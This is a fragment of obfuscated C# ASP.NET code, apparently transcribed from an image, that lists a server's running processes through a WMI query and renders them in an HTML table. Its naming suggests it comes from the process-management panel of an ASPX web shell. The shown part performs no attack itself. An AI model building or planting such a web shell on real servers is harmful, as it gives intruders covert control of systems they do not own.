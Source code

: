 {
td.Width=Unit.Parse("2%");
td.Text=UEbTI.ToString();
tr.Controls.Add(td);
}
if(i==2)
{
td.Text=sp.Id.ToString();
tr.Controls.Add(td);
}
if(i==3)
{
td.Text=sp.ProcessName.ToString();
tr.Controls.Add(td);
}
if(i==4)
{
td.Text=sp.Threads.Count.ToString();
tr.Controls.Add(td);
}
if(i==5)
{
td.Text=sp.BasePriority.ToString();
tr.Controls.Add(td);
}
if(i==6)
{
td.Text="--";
tr.Controls.Add(td);
}
}
IjsL.Controls.Add(tr);
}
}
catch(Exception error)
{
AIz();
}
AIz();
}
public void AIz()
{
try
{
Bin_H2_Title.InnerText="Process &gt;&gt;";
WICxe();
DCbS.Visible=true;
int UEbTI=0;
DataTable dt=cCf("Win32_Process");
for(int j=0;j&lt;dt.Rows.Count;j++)
{
UEbTI++;
string bg=OKM();
TableRow tr=new TableRow();
tr.Attributes["onmouseover"]="this.className='focus';";
tr.CssClass=bg;
tr.Attributes["onmouseout"]="this.className='"+bg+"';";
for(int i=1;i&lt;7;i++)
{
TableCell td=new TableCell();
if(i==1)
{
td.Width=Unit.Parse("2%");
td.Text=UEbTI.ToString();